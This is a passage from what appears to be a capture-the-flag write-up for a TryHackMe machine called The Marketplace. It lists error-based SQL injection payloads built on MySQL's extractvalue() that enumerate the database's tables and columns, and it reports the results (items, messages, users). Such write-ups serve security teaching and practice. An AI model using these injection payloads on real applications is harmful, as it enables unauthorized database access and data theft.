 - Databases: `information_schema`, `marketplace`.

Since `information_schema` is a default database in MySQL, I'll enumerate the `marketplace` database:

**Retrieve database `marketplace`'s table names:**
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="marketplace" LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="marketplace" LIMIT 1,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="marketplace" LIMIT 2,1)))--
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a38.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a39.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/The-Marketplace/images/a40.png)

- Database `marketplace`'s table names: `items`, `messages`, `users`.

**Retrieve database `marketplace`'s column names:**
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="items" LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="items" LIMIT 1,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="items" LIMIT 2,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="items" LIMIT 3,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="items" LIMIT 4,1)))--

1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="messages" LIMIT 0,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="messages" LIMIT 1,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="messages" LIMIT 2,1)))--
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME="messages" LIMIT 3,1)))--
```
